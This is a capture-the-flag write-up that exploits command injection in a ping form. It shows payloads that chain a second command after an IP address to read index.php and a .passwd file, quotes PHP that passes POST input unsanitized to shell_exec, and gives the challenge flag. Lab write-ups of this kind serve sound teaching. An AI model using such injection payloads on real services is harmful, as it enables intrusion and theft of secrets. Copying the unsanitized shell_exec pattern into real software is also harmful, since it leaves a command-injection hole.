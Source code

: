 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 9
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/d1e2fbf5-dde6-4680-9880-434f849e9474)

Let's input `127.0.0.1` as the input field is suggesting.

![2](https://github.com/Knign/Write-ups/assets/110326359/46f87312-d86a-4939-850e-15b020fbf31a)

We can see that our input is used to execute a `ping` command.

We know the flag is on the `index.php` file. In order to `cat` the flag we need to use the `;` separator.

## User Input
```
127.0.0.1 ; cat index.php
```

![3](https://github.com/Knign/Write-ups/assets/110326359/f9499c2f-64bc-4eb4-939f-37f2c9975779)

Looks like our input was processed properly. Let's check the source code.

![4](https://github.com/Knign/Write-ups/assets/110326359/bd7601d5-dff6-4840-94ae-b3d43248550b)

The source code reveals an interesting piece of code.
## PHP code
```php
<?php 
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
```
The line `shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'")` executes a shell command based on user input ($_POST["ip"]).

The line `"".file_get_contents(".passwd").""` reads the content of a file named `.passwd` and appends it to the `$flag` variable. 

Let's modify our input to `cat` the `.passwd` file.

## User Input
```
127.0.0.1 ; cat .passwd
```

![5](https://github.com/Knign/Write-ups/assets/110326359/852de8c6-c743-4a7f-bcc9-01dbd8f42823)

## Flag
```
S3rv1ceP1n9Sup3rS3cure
```
